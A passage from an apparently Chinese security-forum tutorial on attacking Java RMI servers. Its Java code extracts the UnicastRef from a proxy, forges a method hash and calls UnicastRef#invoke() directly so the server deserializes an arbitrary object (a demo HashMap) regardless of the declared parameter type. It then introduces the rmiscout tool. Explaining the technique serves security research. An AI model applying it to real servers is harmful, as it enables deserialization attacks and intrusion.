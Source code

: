 ```java
        Field h = proxyClass.getDeclaredField("h");
        h.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) h.get(lookup);

        Class remoteObjectClass = RemoteObject.class;
        Field ref = remoteObjectClass.getDeclaredField("ref");
        ref.setAccessible(true);
        UnicastRef unicastRef = (UnicastRef)ref.get(invocationHandler);

        //第二步，拿到调用方法的Method对象
        Class myServiceClass = MyService.class;
        Method printHello = myServiceClass.getMethod("printHello", String.class);

        //第三步，拿到调用方法的Hash
        Class remoteObjectInvocationHandlerClass = RemoteObjectInvocationHandler.class;
        RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
        Method getMethodHash = remoteObjectInvocationHandlerClass.getDeclaredMethod("getMethodHash", Method.class);
        getMethodHash.setAccessible(true);
        long methodHash = (long) getMethodHash.invoke(remoteObjectInvocationHandler, printHello);

        //第四步，构造Payload，这里作为演示仅构造一个HashMap
        HashMap payload = new HashMap<>();

        //最终手工调用`UnicastRef#invoke()`
        unicastRef.invoke(lookup, printHello, new Object[]{payload}, methodHash);
    }
}
```

其中`lookup`是一个代理对象，其结构如下:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7c4a7d6bfba1af55e0eb8fe2ff77d44c7096319d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7c4a7d6bfba1af55e0eb8fe2ff77d44c7096319d.png)

手工调用 `UnicastRef#invoke()`的好处是：不需要理会实际调用接口方法的**形参类型**，因为检测类型一致是根据方法Hash判断的，方法Hash可伪造，所以哪怕类型不符也能让Server端反序列化payload。

实际测试打Server端，形参类型是String，但确实能顺利反序列化HashMap。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bf8d759980092a583993d9c7a17cd7755d1f95a4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bf8d759980092a583993d9c7a17cd7755d1f95a4.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ac74a344d38a4694d1e15672e5d2ae01debbcd2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ac74a344d38a4694d1e15672e5d2ae01debbcd2.png)

现成利用工具
======

当然这种方式已经有人做成工具了，工具名[rmiscout](https://github.com/BishopFox/rmiscout)。readMe中也有说明用法，下面简单使用下:
